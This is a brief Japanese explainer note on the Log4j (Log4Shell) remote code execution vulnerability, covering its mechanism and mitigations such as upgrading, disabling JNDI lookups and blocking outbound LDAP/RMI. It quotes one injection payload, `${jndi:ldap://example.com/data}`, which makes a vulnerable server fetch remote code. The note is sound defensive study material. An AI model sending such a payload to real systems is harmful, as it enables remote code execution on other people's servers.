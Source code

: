 ```yaml
---
CVSS Score: 10.0 (Critical)
Vulnerability Type: Remote Code Execution (RCE)
---
```

## 概要
Java向けlog処理フレームワークのLog4jのゼロディ脆弱性、攻撃者のインジェクションによってLog4jを使用するアプリに任意のコードを実行させることができる。

## 仕組み
Log4jの文字列埋め込み機能(String substitution)を利用し、定型文に変数を埋め込むことができ
`logger.info("User {} logged in", username)`
さらに、変数として、実行できるコード(`${}`とマーク）を埋め込むことができる
`logger.info("Current user: ${sys:user.name}")`

攻撃者は、例えば悪意のコードを仕込んだサーバに対するLDAP依頼を仕込んだコードをインジェクトすれば、ログとして表示される時に実行され、悪意のあるコードをダウンロードし、実行することがある
`${jndi:ldap://example.com/data}`

## 対策
1. Log4jを脆弱性が修正された2.15.0以降のバージョンにアップデート
2. log4jのJNDI Lookupを禁止する、JNDI Lookupが通常業務に必要な環境では、最小限の許可リストを設定する
3. ネットワーク外向けの[[LDAP]],[[RMI]]コネクションを禁止する
4. WAFに攻撃行為を検知、ブロックするルールを追加git